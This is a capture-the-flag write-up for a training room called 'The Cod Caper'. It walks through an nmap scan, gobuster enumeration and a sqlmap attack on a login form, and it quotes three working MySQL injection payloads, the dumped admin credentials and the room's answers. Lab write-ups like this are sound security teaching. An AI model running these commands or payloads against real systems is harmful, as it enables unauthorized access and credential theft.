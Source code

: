# The Cod Caper

## Task 1: Intro
pingu story

## Task 2: Host Enumeration
`nmap -sC -sV -A 10.10.40.189`

-A: Enable OS detection, version detection, script scanning, and traceroute

-sC: equivalent to --script=default

-sV: Probe open ports to determine service/version info

**Scan Results**
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-31 09:48 IST
Nmap scan report for 10.10.40.189
Host is up (0.21s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6d:2c:40:1b:6c:15:7c:fc:bf:9b:55:22:61:2a:56:fc (RSA)
|   256 ff:89:32:98:f4:77:9c:09:39:f5:af:4a:4f:08:d6:f5 (ECDSA)
|_  256 89:92:63:e7:1d:2b:3a:af:6c:f9:39:56:5b:55:7e:f9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.68 seconds
```
### 1. How many ports are open on the target machine?
2 (ssh, http)

### 2. What is the http-title of the web server?
Apache2 Ubuntu Default Page: It works

### 3. What version is the ssh service?
OpenSSH 7.2p2 Ubuntu 4ubuntu2.8

### 4. What is the version of the web server?
Apache/2.4.18

## Task 3: Web enumeration
Using the [suggested wordlist](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/big.txt).

run: `gobuster dir -u 10.10.16.135 -w "path/to/wordlist.txt" -x "html,php,txt"`

It was around 10% way of searching when it got this!

### 1.  What is the name of the important file on the server?
/administrator.php

## 4. Web Exploitation
login form -> sql injection?

run `sqlmap -u http://10.10.16.135/administrator.php --forms --dump`

-u: url

--forms: gets parameters from `form` element in the page

--dump: gets data once SQLI(SQLInjection) is found


We now get this from sqlmap:
1. 3 kinds of blinds
```
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: username=gbXk' RLIKE (SELECT (CASE WHEN (1352=1352) THEN 0x6762586b ELSE 0x28 END))-- MeOd&password=

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: username=gbXk' AND GTID_SUBSET(CONCAT(0x71716b6b71,(SELECT (ELT(9508=9508,1))),0x716b6a7171),9508)-- BmZK&password=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=gbXk' AND (SELECT 6145 FROM (SELECT(SLEEP(5)))TqbZ)-- sWNA&password=
---
```
2. Database entries 

Database: users

Table: users

[1 entry]

| password | username |
| - | - |
| secretpass | pingudad |

### 1. What is the admin username?
pingudad

### 2. What is the admin password?
secretpass

### 3. How many forms of SQLI is the form vulnerable to?
3

